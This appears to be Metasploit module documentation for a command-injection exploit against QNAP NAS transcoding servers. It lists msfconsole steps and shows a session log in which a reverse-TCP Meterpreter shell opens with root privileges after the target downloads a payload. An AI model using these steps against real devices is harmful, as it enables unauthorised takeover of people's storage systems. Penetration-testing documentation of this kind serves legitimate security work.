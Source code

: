 ## Description

  This module exploits an unauthenticated remote command injection vulnerability in QNAP NAS devices. The transcoding server listens on port 9251 by default and is vulnerable to command injection using the 'rmfile' command.


## Vulnerable Application

  [QNAP](https://www.qnap.com/) designs and delivers high-quality network attached storage (NAS) and professional network video recorder (NVR) solutions to users from home, SOHO to small, medium businesses.

  This module was tested successfully on a QNAP TS-431 with firmware version 4.3.3.0262 (20170727).


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/linux/misc/qnap_transcode_server`
  3. Do: `set RHOST [IP]`
  4. Do: `set LHOST [IP]`
  5. Do: `run`
  6. You should get a session


## Options

  **Delay**

  How long to wait (in seconds) for the device to download the payload.


## Scenarios

  ```
  msf > use exploit/linux/misc/qnap_transcode_server 
  msf exploit(qnap_transcode_server) > set rhost 10.1.1.123
  rhost => 10.1.1.123
  msf exploit(qnap_transcode_server) > check
  [*] 10.1.1.123:9251 The target service is running, but could not be validated.
  msf exploit(qnap_transcode_server) > set lhost 10.1.1.197
  lhost => 10.1.1.197
  msf exploit(qnap_transcode_server) > run

  [*] Started reverse TCP handler on 10.1.1.197:4444 
  [*] 10.1.1.123:9251 - Using URL: http://0.0.0.0:8080/IQrgbm
  [*] 10.1.1.123:9251 - Local IP: http://10.1.1.197:8080/IQrgbm
  [*] 10.1.1.123:9251 - Sent command successfully (52 bytes)
  [*] 10.1.1.123:9251 - Waiting for the device to download the payload (30 seconds)...
  [*] 10.1.1.123:9251 - Sent command successfully (22 bytes)
  [*] 10.1.1.123:9251 - Sent command successfully (13 bytes)
  [*] Meterpreter session 1 opened (10.1.1.197:4444 -> 10.1.1.123:53888) at 2017-08-13 05:05:18 -0400
  [*] 10.1.1.123:9251 - Sent command successfully (19 bytes)
  [*] 10.1.1.123:9251 - Command Stager progress - 100.00% done (109/109 bytes)
  [*] 10.1.1.123:9251 - Server stopped.

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo 
  Computer     : 10.1.1.123
  OS           :  (Linux 3.2.26)
  Architecture : armv7l
  Meterpreter  : armle/linux
  ```

